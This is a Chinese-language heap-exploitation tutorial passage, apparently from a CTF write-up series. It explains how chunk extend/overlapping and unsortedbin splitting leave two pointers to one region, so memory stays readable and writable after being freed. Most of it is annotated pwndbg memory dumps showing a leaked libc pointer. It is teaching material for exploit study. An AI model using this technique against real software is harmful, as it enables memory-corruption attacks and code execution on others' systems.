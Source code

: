 # 关键句（文章提要）
<font style="color:#F5222D;">利用chunk Extend/Overlapping修改size将chunk加入unsortedbin，malloc造成unsortedbin切割，再次malloc即可导致两个指针指向同一片区域，从而使得释放任意一个之后内存区域仍然可读写。</font>

# 对上一小节进行补充
从上一小节我们知道，index2的内存实际上是没有被释放的，因此可读写；程序读写规则如下：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1610885830509-40e2f4da-608a-4efa-8fce-fc7ad987cb7a.png)

我们将程序断在上一篇文章的末尾处，开始gdb调试：

```python
pwndbg> x/30gx 0x555555756000
0x555555756000:	0x0000000000000000	0x0000555555756008
0x555555756010:	0x0000000000000000	0x0000000000000000
0x555555756020 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x555555756030 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756040:	0x0000001800000001	0x0000555555757010 #chunk的标志位
0x555555756050:	0x0000006800000001	0x0000555555757030 
0x555555756060:	0x0000006800000001	0x00005555557570a0 #index2处于可写状态
0x555555756070:	0x0000006800000001	0x0000555555757110
0x555555756080:	0x0000006800000001	0x0000555555757180
0x555555756090:	0x0000000000000000	0x0000000000000000
0x5555557560a0:	0x0000000000000000	0x0000000000000000
0x5555557560b0:	0x0000000000000000	0x0000000000000000
0x5555557560c0:	0x0000000000000000	0x0000000000000000
0x5555557560d0:	0x0000000000000000	0x0000000000000000
0x5555557560e0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

此时的内存：

```python
pwndbg> x/70gx 0x555555757000
------------------------------------------------------------------------
0x555555757000: 0x0000000000000000  0x0000000000000021 #index0
0x555555757010: 0x6161616161616161  0x6161616161616161
------------------------------------------------------------------------
0x555555757020: 0x6161616161616161  0x00000000000000e1 #index1 
0x555555757030: 0x0000000000000000  0x0000000000000000
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757090: 0x0000000000000000  0x0000000000000071 #index2（malloc）
0x5555557570a0: 0x00007ffff7dd1b78  0x00007ffff7dd1b78 #unsortedbin指针
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757100: 0x00000000000000e0  0x0000000000000070 #index3
                #index1+index2_size #index3_size
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x555555757170: 0x0000000000000000  0x0000000000000071 #index4
......(省略数据的内容均为空)
------------------------------------------------------------------------
0x5555557571e0: 0x0000000000000000  0x0000000000020e21 #top_chunk
......(省略数据的内容均为空)
0x555555757220: 0x0000000000000000  0x0000000000000000
------------------------------------------------------------------------
pwndbg> bin
fastbins
0x20: 0x0
0x30: 0x0
0x40: 0x0
```